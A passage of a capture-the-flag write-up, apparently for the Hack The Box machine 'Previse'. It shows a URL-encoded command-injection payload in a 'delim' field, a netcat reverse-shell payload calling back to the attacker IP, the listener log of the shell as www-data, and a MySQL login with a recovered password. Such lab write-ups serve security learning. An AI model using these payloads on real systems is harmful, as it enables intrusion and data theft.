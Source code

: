 ### Command Injection
The payload for this request looks like it is vulnerable to command injection. We will create a POC for this exploit by creating a payload to send a ping command to our IP address, and we will use ```Wireshark``` to capture the requests and check for ```ping``` requests.
```code
delim=comma%7Cping%20-n%2021%2010.10.16.250%7C%7C%60ping%20-c%2021%2010.10.16.250%60%20%23%27%20%7Cping%20-n%2021%2010.10.16.250%7C%7C%60ping%20-c%2021%2010.10.16.250%60%20%23%5C%22%20%7Cping%20-n%2021%2010.10.16.250
```
The ```ping``` requests were captured by wireshark, which proved that the POC worked.
![Ping requests captured](https://github.com/joelczk/writeups/blob/main/HTB/Images/Previse/ping_requests.PNG)

### Obtaining a reverse shell
Now all we have to do, is to create a reverse shell to connect to ```10.10.11.104```. The payload used is ```delim=comma%7Cnc%20-e%20%2Fbin%2Fsh%2010.10.16.250%203000``` and we will create a listening shell on the attacker machine. Afterwards, we will establish the shell.
```code
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 3000                                                       23 ⚙
listening on [any] 3000 ...
connect to [10.10.16.250] from (UNKNOWN) [10.10.11.104] 45240
python3 -c 'import pty; pty.spawn(\"/bin/bash\")'   
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@previse:/var/www/html$ export TERM=xterm
export TERM=xterm
www-data@previse:/var/www/html$ ls
ls
accounts.php                download.php       footer.php  logs.php
android-chrome-192x192.png  favicon-16x16.png  header.php  nav.php
android-chrome-512x512.png  favicon-32x32.png  index.php   site.webmanifest
apple-touch-icon.png        favicon.ico        js          status.php
config.php                  file_logs.php      login.php
css                         files.php          logout.php
```

### Logging into SSH credentials
Recall that we have obtained the SQL credentials, we will now try to login to the SQL server using the credentials. 
```code
www-data@previse:/var/www/html$ mysql -u root -p
mysql -u root -p
Enter password: mySQL_p@ssw0rd!:)

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 9
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

```